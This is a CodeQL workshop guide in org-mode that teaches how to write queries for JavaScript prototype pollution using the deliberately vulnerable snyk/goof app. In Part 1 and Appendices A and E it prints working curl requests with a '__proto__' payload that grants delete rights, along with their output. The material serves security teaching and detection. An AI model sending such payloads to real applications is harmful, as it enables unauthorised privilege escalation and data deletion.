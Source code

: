 # -*- coding: utf-8 -*-
# Created 2020-10-19 Mon 14:11
#+TITLE: CodeQL workshop for javascript
#+AUTHOR: Michael Hohn
#+LANGUAGE:  en
#+TEXT:      
#+OPTIONS: ^:{} H:2 num:t \n:nil @:t ::t |:t ^:nil f:t *:t TeX:t LaTeX:t skip:nil p:nil
#+OPTIONS: toc:nil
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="./l3style.css"/>
#+HTML: <div id="toc">
#+TOC: headlines 2        insert TOC here, with two headline levels
#+HTML: </div> 
# 
#+HTML: <div id="org-content">

* Setup instructions for Visual Studio Code
  To run CodeQL queries offline, follow these steps:

  1. Install the Visual Studio Code IDE.
  2. Download and install the [[https://help.semmle.com/codeql/codeql-for-vscode.html][CodeQL extension for Visual Studio Code]]. Full setup
     instructions are [[https://help.semmle.com/codeql/codeql-for-vscode/procedures/setting-up.html][here]].
  3. [[https://help.semmle.com/codeql/codeql-for-vscode/procedures/setting-up.html#using-the-starter-workspace][Set up the starter workspace]].
     - *Important*: Don't forget to =git clone --recursive= or =git submodule
       update --init --remote=, so that you obtain the standard query libraries.
  4. Open the starter workspace: File > Open Workspace > Browse to
     =vscode-codeql-starter/vscode-codeql-starter.code-workspace=.

* Download the workshop zip file
  The [[https://drive.google.com/file/d/1eTHIFXO4AThVmI1eHdS2oi6caeDEkilD/view?usp=sharing][codeql-js-goof-workshop.zip]] file contains these instructions, the codeql
  database, and a directory with the codeql samples we will develop during the
  workshop.  You can use the codeql samples directory as-is by adding it to your
  workspace.

* Setting up your environment
  In case of ql library version errors when trying to run a query, try to set your
  environment to match the one for this workshop by setting the ql library version
  to v1.25.0:

  - For a standalone ql tree, something like this
    #+BEGIN_SRC sh
    cd ~/local/vmsync/ql
    git checkout -b mh-v1.25.0 v1.25.0
    #+END_SRC

  - For ql in the starter workspace:
    #+BEGIN_SRC sh
      cd ~/local/vscode-codeql-starter
      git pull
      git submodule update            # avoid database scheme mismatch
      git checkout -b mh-v1.25.0 origin/1.25.0
    #+END_SRC

* CodeQL workshop for javascript, Part 1: Identify the Problem
  Before any queries can be written, we 
  1. should be certain that the application has a vulnerability and
  2. we have to identify the parts of the application's source code affected by
     it.
  

** The Prototype Pollution Problem
   In this workshop, we focus on Javascript Prototype Pollution.

   Prototype pollution is a type of vulnerability in which an attacker is able to
   modify =Object.prototype=.  This can happen when recursively merging a
   user-controlled object into another object, allowing an attacker to
   modify the built-in Object prototype.  Once that is done, later requests can
   abuse the new property, e.g. to gain access to parts of a system.

   This is best illustrated via example; the all-in-one vulnerable app, [[https://github.com/snyk/goof][goof]],
   provides a good sample for prototype injection in a web app.  It labels itself
   as the /Super vulnerable todo list application/, and has samples for seeing
   those vulnerabilities in action.

** Exploit the snyk/goof Application
   This is a concise run to exploit the prototype injection of [[https://github.com/snyk/goof][snyk/goof]].  For a
   complete walkthrough, see [[*Appendix E: Complete Setup and Exploit of the snyk/goof Application][Appendix E: Complete Setup and Exploit of the
   snyk/goof Application]].

   For the workshop we only need to collect vulnerability information; once goof
   is running, we try the prototype-pollution exploits:
   #+BEGIN_SRC sh
     # Check exploits
     bash
     . ~/local/goof/exploits/prototype-pollution.sh

     # Try c1 through c4 and exploit:
     List messages
             hohn@gh-hohn ~/local/goof/exploits
             0:$ c1
             []

     Send some messages
             hohn@gh-hohn ~/local/goof/exploits
             0:$ c2
             {"ok":true}
             hohn@gh-hohn ~/local/goof/exploits
             0:$ c2
             {"ok":true}

     List again
             hohn@gh-hohn ~/local/goof/exploits
             0:$ c1
             [{"icon":"👋","text":"Hi!","id":1,"timestamp":1602276330967,"userName":"user"},
              {"icon":"👋","text":"Hi!","id":2,"timestamp":1602276331875,"userName":"user"}]

     Try to delete
             hohn@gh-hohn ~/local/goof/exploits
             0:$ c4
             {"ok":false,"error":"Access denied"}

     Use exploit
             hohn@gh-hohn ~/local/goof/exploits
             0:$ c3
             {"ok":true}

     Try to delete again
             hohn@gh-hohn ~/local/goof/exploits
             130:$ c4
             {"ok":true}

     Notice message 1 is gone:
             hohn@gh-hohn ~/local/goof/exploits
             0:$ c1
             [{"icon":"👋","text":"Hi!","id":2,"timestamp":1602276331875,"userName":"user"},
              {"icon":"👋","text":"😈","id":3,"timestamp":1602276340962,"userName":"user"}]
   #+END_SRC


   Now let's examine the exploits and see what happened.  The requests sent are
   #+BEGIN_SRC sh
     // c2, safe
     {
         curl --request PUT \
           --url "$GOOF_HOST/chat" \
           --header 'content-type: application/json' \
           --data '{"auth": {"name": "user", "password": "pwd"}, 
                    "message": {"text": "Hi!"}}'
     }

     // c3, the exploit:
     {
         curl --request PUT \
           --url "$GOOF_HOST/chat" \
           --header 'content-type: application/json' \
           --data '{"auth": {"name": "user", "password": "pwd"}, 
                    "message": { "text": "😈", "__proto__": {"canDelete": true}}}'
     }

     // c4, the delete request
     {
         curl --request DELETE \
           --url "$GOOF_HOST/chat" \
           --header 'content-type: application/json' \
           --data '{"auth": {"name": "user", "password": "pwd"}, "messageId": 1}'
     }
   #+END_SRC

   The first two are PUT requests to the URL =$GOOF_HOST/chat=, but the json messages differ:
   #+BEGIN_SRC javascript
        // safe
        {"auth": {"name": "user", "password": "pwd"}, 
         "message": {"text": "Hi!"}}

        // exploit
        {"auth": {"name": "user", "password": "pwd"}, 
         "message": { "text": "😈", "__proto__": {"canDelete": true}}}
   #+END_SRC

   The =__proto__= change allows the delete request to succeed.

** Find problems in source code
   Next, we need to see where and why this is causing the problem in the
   application.  A short inspection of the source code sheds some light on this
   issue. 

   The app entry point is seen from the startup command:
   #+BEGIN_SRC sh
     node app.js                     # from ~/local/goof/package.json
   #+END_SRC

   For prototype pollution, the c3 send is a http PUT to =$GOOF_HOST/chat=, with an
   invalid =message=:
   #+BEGIN_SRC sh
     curl --request PUT \
       --url "$GOOF_HOST/chat" \
       --header 'content-type: application/json' \
       --data '{"auth": {"name": "user", "password": "pwd"}, 
                "message": { "text": "😈", "__proto__": {"canDelete": true}}}'
   #+END_SRC

   Inspect the code to track these;  starting from =app.js=, we see that
   #+BEGIN_SRC js
     // requests are passed through to routes.chat.add via 
     app.put('/chat', routes.chat.add);
   #+END_SRC
   and in =index.js= line 259, =routes.chat.add=, we see that
   #+BEGIN_SRC javascript
      // requests pass into 
      exports.chat.add(req, res)
      // where the the incoming req.body.message directly merged without checks:
      _.merge(message, req.body.message, {...})
      // so message (an {}) now has "__proto__": {"canDelete": true}
   #+END_SRC

   This can be seen using the debugger in VS Code; see [[*Appendix A: Trace the exploit in the VS Code JS Debugger][Appendix A: Trace the
   exploit in the VS Code JS Debugger]] for details.

   Key information for the later queries:
   - the request entry through =routes.chat.add()=
   - the request use in the =_.merge()= call

* CodeQL workshop for javascript, Part 2: Write query
  With the known vulnerability and the information from above, 
  - the request data enters through =routes.chat.add()=
  - the request's data is used in the =_.merge()= call
  we can now proceed to write queries to find these problems.

** Import the CodeQL database
   The codeql database for this project is part of the workshop zip file.  You
   likely got it in the setup step, but here is the link:  [[https://drive.google.com/file/d/1eTHIFXO4AThVmI1eHdS2oi6caeDEkilD/view?usp=sharing][codeql-js-goof-workshop.zip]].

   Next, import the database directory into your VS Code workspace; the name is
   =js-goof-9300e9a=.

   For completeness and reference, here are the steps used to build the codeql
   database; this requires the codeql cli tools:

   #+BEGIN_SRC sh
       #* build db
       SRCDIR=$HOME/local/goof
       DB=$HOME/local/db/js-goof-$(cd $SRCDIR && git rev-parse --short HEAD)
       echo $DB
       test -d "$DB" && rm -fR "$DB"
       mkdir -p "$DB"

       export PATH=$HOME/local/vmsync/codeql224:"$PATH"
       codeql database create --language=javascript -s $SRCDIR  -j 8 -v $DB

       # Successfully created database at ~/local/db/js-goof-9300e9a
   #+END_SRC

** Custom query for local flow
   Based on what we found in [[*Find problems in source code][Find problems in source code]], the sink should be
   any argument to =merge()= past the first, so let's use that.

   The files [[./flow-query-0.ql]] etc. build a local flow query from scratch for the
   Javascript Prototype Pollution problem.  We cover these in detail in the
   workshop, but here is the outline of what each introduces for later reference:

   - [[./flow-query-0.ql]]  identify sink: from, where, select, MethodCallExpr
   - [[./flow-query-1.ql]]  getAnArgument
   - [[./flow-query-2.ql]]  Introduce =predicate= and convert to =predicate mergeCallArg= 
   - [[./flow-query-3.ql]]  identify source: FunctionExpr, getName
   - [[./flow-query-4.ql]]  parameter and body: getNumParameter, getBody
   - [[./flow-query-5.ql]]  source argument: getParameter
   - [[./flow-query-6.ql]]  convert to =predicate chatHandler=
   - [[./flow-query-7.ql]]  Local flow attempt: getASuccessor, =operator +=,
     =DataFlowNode=, getAstNode
   - [[./flow-query-8.ql]]  Flow debugging: flow from source to any
   - [[./flow-query-9.ql]]  Flow debugging: sink only (sanity check)
   - [[./flow-query-10.ql]]  Flow debugging: any to sink
   - [[./flow-query-11.ql]]  Flow try: any to any child of sink: introduce =exists=,
     getAChild, =operator *=
   - [[./flow-query-12.ql]]  Local flow: Re-introduce the source restriction,
     simplify =exists=, get working flow query.
   - [[./flow-query-13.ql]] Add =predicate mergeCallArg= and =predicate chatHandler=
     taking =DataFlowNode= to clean up and for re-use in global flow query.

** Custom Global TaintTracking Query and Path Query
   The [[*Custom query for local flow][Custom query for local flow]] developed the predicates we need for a global
   taint tracking query.  The files [[./GoofPrototypePollution-0.ql]] etc. develop
   this query and list pairs of results (sources and sinks).  The sequence:
   - [[./GoofPrototypePollution-0.ql]]  Raw global taint tracking configuration
        template.  Introduces =class=, characteristic predicate,
        =TaintTrackingConfiguration= and =hasFlow()=.
   - [[./GoofPrototypePollution-1.ql]]  Plug in the previously developed predicates
        =mergeCallArg= and =chatHandler=, see the flow pairs.
   - [[./GoofPrototypePollution-2.ql]]  Changes to get a path query.  In addition to
        the result pairs listed by [[./GoofPrototypePollution-1.ql]], this /path query/
        also shows some data flow paths between the sources and sinks.  For this
        example, they are all local.

** CodeQL JS library documentation 
   The following is an overview of available library documentation; the *bold*
   items are those used in this workshop.  
   - [[https://help.semmle.com/QL/learn-ql/javascript/introduce-libraries-js.html#codeql-library-for-javascript][codeql-library-for-javascript]]
     - [[https://help.semmle.com/QL/learn-ql/javascript/introduce-libraries-js.html#syntactic-level][Syntactic Level]]
       - ASTNode,
         - TopLevel
         - Stmt
         - *Expr*
           - *FunctionExpr*
           - InvokeExpr
             - CallExpr
             - NewExpr
             - *MethodCallExpr*
           - PropAccess

       - [[https://help.semmle.com/QL/learn-ql/javascript/introduce-libraries-js.html#functions][functions overview ]] and the [[https://help.semmle.com/qldoc/javascript/semmle/javascript/Functions.qll/type.Functions$Function.html][Function]] reference
         - FunctionDeclStmt (a subclass of Stmt)
         - *FunctionExpr* (a subclass of Expr)
         - ArrowFunctionExpr (also a subclass of Expr)
       - ClassDefinition,
         - ClassDeclStmt (which is a subclass of Stmt)
         - ClassExpr (which is a subclass of Expr)
       - MemberDefinition
         - MethodDefinition
         - FieldDefinition
       - DeclStmt
       - BindingPattern
         - VarRef
         - Parameter
         - ArrayPattern
         - ObjectPattern
       - Property: Properties in object literals.  Is also a subclass of ASTNode,
         but neither of Expr nor of Stmt.
       - Module
         - ES2015Module
         - NodeModule
         - AMDModule
       - Scope
         - GlobalScope
         - FunctionScope
         - CatchScope
       - Variable 
         - VarDecl
         - VarAccess
     - [[https://help.semmle.com/QL/learn-ql/javascript/introduce-libraries-js.html#control-flow][Control Flow Graph]]
       - ControlFlowNode
     - [[https://help.semmle.com/QL/learn-ql/javascript/introduce-libraries-js.html#data-flow][Data Flow]]
       - definition and use
         - VarDef
         - VarUse
       - ssa
       - [[https://help.semmle.com/QL/learn-ql/javascript/introduce-libraries-js.html#data-flow-nodes][data flow nodes]]
         - *DataFlow::Node*
           - ValueNode
             - /To =ValueNode=/: use =DataFlow::valueNode= to convert an
               expression, function or class into its corresponding ValueNode
             - /From =ValueNode=/: use =ValueNode.getAstNode()= for mapping from
               ValueNodes to ASTNodes

           - SsaDefinitionNode
             - /To =SsaDefinitionNode=/, use =DataFlow::ssaDefinitionNode= to map
               an SSA definition to its corresponding SsaDefinitionNode.
             - /To =SsaDefinitionNode= for a parameter:/ the auxiliary predicate
               =DataFlow::parameterNode= maps a parameter to its
               corresponding data flow node.
             - /From =SsaDefinitionNode=:/ use
               =SsaDefinitionNode.getSsaVariable()= to get the =SsaVariable=

         - Use =DataFlow::Node.getAPredecessor()= to find other data flow nodes
           from which values may flow into this node, and *=getASuccessor()=* for the
           other direction.

       - [[https://help.semmle.com/QL/learn-ql/javascript/introduce-libraries-js.html#type-inference][Type inference]]
       - [[https://help.semmle.com/QL/learn-ql/javascript/introduce-libraries-js.html#call-graph][Call Graph]]
       - inter-procedural
         - DataFlow::Configuration
         - TaintTracking::Configuration


** CodeQL JS data flow library documentation 
   Following are links and short descriptions of the dataflow concepts this
   workshop touches on.  Follow the links for a more in-depth description.

   - [[https://help.semmle.com/QL/learn-ql/javascript/dataflow.html#analyzing-data-flow-in-javascript-and-typescript][analyzing-data-flow-in-javascript-and-typescript]]
     - [[https://help.semmle.com/QL/learn-ql/javascript/dataflow.html#local-data-flow][*local data flow*]] Use the member predicates =getAPredecessor()= and
       =getASuccessor()= on DataFlow::Node.  To follow one or more steps of local
       data flow, use the transitive closure operator =+=, and for zero or more
       steps the reflexive transitive closure operator =*=.

     - [[https://help.semmle.com/QL/learn-ql/javascript/dataflow.html#global-data-flow][*global-data-flow*]] global data flow is less precise than local data
       flow. That is, the analysis may report spurious flows that cannot in fact
       happen. Moreover, global data flow analysis typically requires
       significantly more time and memory than local analysis.


* Appendices
** Appendix A: Trace the exploit in the VS Code JS Debugger
   To see the prototype injection exploit in action using the JS debugger, try the
   following steps:
   - set up shell
     #+BEGIN_SRC sh
       . ~/local/goof/exploits/prototype-pollution.sh
       # Gain permissions with c3
       # Delete message with c4
     #+END_SRC
   - Launch for debugging:
     #+BEGIN_SRC sh
       cd ~/local/goof
       echo $$ && node --inspect=$$ app.js
     #+END_SRC
   - In vs code, run 'attach to node process', choose the =node --inspect...=
     process.
   - Set breakpoints in files, ~/local/goof/routes/index.js line 272
   - From the shell, send the delete request.  It will fail to delete: 
     : c4
   - Run the gain permission exploit, this will trap at breakpoint:
     : c3
   - In vs code debug console, observe the value of
     : ({}).__proto__.canDelete
     before and after the
     : _.merge(message, req.body.message, {...})
     expression.

   Oddly, there is different behavior in node command line:
   #+BEGIN_SRC javascript
     // Different behavior in node command line?
     cd ~/local/goof
     node
     Welcome to Node.js v14.13.1.
     Type ".help" for more information.
     var _ = require('lodash');
     var a = {"name": "a"}
     var b = {"name": "b"}
     ({}).__proto__.canDelete        // undefined
     _.merge(a, { "text": "😈", "__proto__": {"canDelete": true}}, b)
     a.canDelete                     // true
     b.canDelete                     // undefined
     ({}).__proto__.canDelete        // undefined
   #+END_SRC
  
** Appendix B: Run default queries
   It's always worthwhile to try the default queries. 
   The CWE-400 [[https://github.com/Semmle/ql/blob/c9e22ab2716b29514435c9691776a73cbb3fe4a5/javascript/ql/test/query-tests/Security/CWE-400/src-vulnerable-lodash/tst.js#L1][tst.js]] has this vulnerability, but it's not found in the test
   code by the queries

   - [[https://github.com/Semmle/ql/blob/86755215ad19e98b7e9490a7205ca4bd436bf1df/javascript/ql/src/Security/CWE-400/PrototypePollution.ql#L21][Security/CWE-400/PrototypePollution.ql]]
     Recursively merging a user-controlled object into another object
     can allow an attacker to modify the built-in Object prototype.

   - [[https://github.com/Semmle/ql/blob/86755215ad19e98b7e9490a7205ca4bd436bf1df/javascript/ql/src/Security/CWE-400/PrototypePollutionUtility.ql#L14][Security/CWE-400/PrototypePollutionUtility.ql]]
     Recursively assigning properties on objects may cause accidental
     modification of a built-in prototype object.

   without some additions as done in [[*Appendix C: Expand existing query with new sources and sinks][Appendix C: Expand existing query with new sources and sinks]].

** Appendix C: Expand existing query with new sources and sinks
   The original query found in [[./PrototypePollution-0.ql]] can be enhanced without
   changing library code by subclassing as is done in [[./PrototypePollution-1.ql]].
   # 
   This finds a good set of results, including the local query's results found
   earlier.

   The results reported by CodeQL:
   - Prototype pollution caused by merging a user-controlled value from here using a
     vulnerable version of lodash.  index.js:272:22

     Path
     | 1 | req              | index.js:259:7  |
     | 2 | req              | index.js:272:22 |
     | 3 | req.body         | index.js:272:22 |
     | 4 | req.body.message | index.js:272:22 |

   - Prototype pollution caused by merging a user-controlled value from here using a
     vulnerable version of just-a-test .  index.js:272:22

     Path
     | 1 | req              | index.js:259:7  |
     | 2 | req              | index.js:272:22 |
     | 3 | req.body         | index.js:272:22 |
     | 4 | req.body.message | index.js:272:22 |

** Appendix D: Further Reading
   The queries provided by the ql library include the following.  They use 
   flow labels and some other advanced concepts that we won't cover during this
   workshop.  They are recommended for separate reading.

   - [[https://github.com/Semmle/ql/blob/86755215ad19e98b7e9490a7205ca4bd436bf1df/javascript/ql/src/Security/CWE-400/PrototypePollution.ql#L21][Security/CWE-400/PrototypePollution.ql]]
   - [[https://github.com/Semmle/ql/blob/86755215ad19e98b7e9490a7205ca4bd436bf1df/javascript/ql/src/Security/CWE-400/PrototypePollutionUtility.ql#L14][Security/CWE-400/PrototypePollutionUtility.ql]]

** Appendix E: Complete Setup and Exploit of the snyk/goof Application
   This is a concise setup and run of [[https://github.com/snyk/goof][snyk/goof]].  All steps are included for
   completeness, but for the workshop we only need to collect the vulnerability
   information.

   1. Install [[https://docs.mongodb.com/manual/tutorial/install-mongodb-on-os-x/#install-mongodb-community-edition][mongodb]]
      #+BEGIN_SRC sh
        # Install
        brew tap mongodb/brew
        brew install mongodb-community@4.4
      #+END_SRC
      To have launchd start mongodb/brew/mongodb-community now and restart at login:
      : brew services start mongodb/brew/mongodb-community
      Or, if you don't want/need a background service you can just run:
      : mongod --config /usr/local/etc/mongod.conf

      Which is what we do:
      #+BEGIN_SRC sh
        # Run
        mongod --config /usr/local/etc/mongod.conf &

        # check log
        tail /usr/local/var/log/mongodb/mongo.log

        # Connect and test
        mongo

        db.inventory.insertOne(
           { item: "canvas", qty: 100, tags: ["cotton"], size: { h: 28, w: 35.5, uom: "cm" } }
        )

        db.inventory.find( { item: "canvas" } )
      #+END_SRC

   2. Install goof
      #+BEGIN_SRC sh
        # Clone
        cd ~/local
        git clone https://github.com/Snyk/goof

        # Build
        cd ~/local/goof
        npm install

        # ...
        # found 253 vulnerabilities (153 low, 17 moderate, 82 high, 1 critical)
        #   run `npm audit fix` to fix them, or `npm audit` for details
        # ...
      #+END_SRC

   3. Run goof
      #+BEGIN_SRC sh
        # Run mongodb
        mongod --config /usr/local/etc/mongod.conf &

        # Run goof
        cd ~/local/goof
        npm start                       # follow logs here
        # or
        node app.js                     # from ~/local/goof/package.json
        open http://localhost:3001
      #+END_SRC

   4. Try prototype-pollution exploits
      #+BEGIN_SRC sh
        # Check exploits
        bash
        . ~/local/goof/exploits/prototype-pollution.sh

        # Try c1 through c4 and exploit:
        List messages
                hohn@gh-hohn ~/local/goof/exploits
                0:$ c1
                []

        Send some messages
                hohn@gh-hohn ~/local/goof/exploits
                0:$ c2
                {"ok":true}
                hohn@gh-hohn ~/local/goof/exploits
                0:$ c2
                {"ok":true}

        List again
                hohn@gh-hohn ~/local/goof/exploits
                0:$ c1
                [{"icon":"👋","text":"Hi!","id":1,"timestamp":1602276330967,"userName":"user"},
                 {"icon":"👋","text":"Hi!","id":2,"timestamp":1602276331875,"userName":"user"}]

        Try to delete
                hohn@gh-hohn ~/local/goof/exploits
                0:$ c4
                {"ok":false,"error":"Access denied"}

        Use exploit
                hohn@gh-hohn ~/local/goof/exploits
                0:$ c3
                {"ok":true}

        Try to delete again
                hohn@gh-hohn ~/local/goof/exploits
                130:$ c4
                {"ok":true}

        Notice message 1 is gone:
                hohn@gh-hohn ~/local/goof/exploits
                0:$ c1
                [{"icon":"👋","text":"Hi!","id":2,"timestamp":1602276331875,"userName":"user"},
                 {"icon":"👋","text":"😈","id":3,"timestamp":1602276340962,"userName":"user"}]
      #+END_SRC

   5. The exploit's origin, or "What happened?"

      The requests sent are
      #+BEGIN_SRC sh
        // c2, safe
        {
            curl --request PUT \
              --url "$GOOF_HOST/chat" \
              --header 'content-type: application/json' \
              --data '{"auth": {"name": "user", "password": "pwd"}, "message": {"text": "Hi!"}}'
        }
        // c3, the exploit:
        {
            curl --request PUT \
              --url "$GOOF_HOST/chat" \
              --header 'content-type: application/json' \
              --data '{"auth": {"name": "user", "password": "pwd"}, 
                       "message": { "text": "😈", "__proto__": {"canDelete": true}}}'
        }
      #+END_SRC

      Both are PUT requests to the URL =$GOOF_HOST/chat=, but the json messages differ:
      #+BEGIN_SRC javascript
        // safe
        {"auth": {"name": "user", "password": "pwd"}, 
         "message": {"text": "Hi!"}}

        // exploit
        {"auth": {"name": "user", "password": "pwd"}, 
         "message": { "text": "😈", "__proto__": {"canDelete": true}}}
      #+END_SRC




#+HTML: </div> 

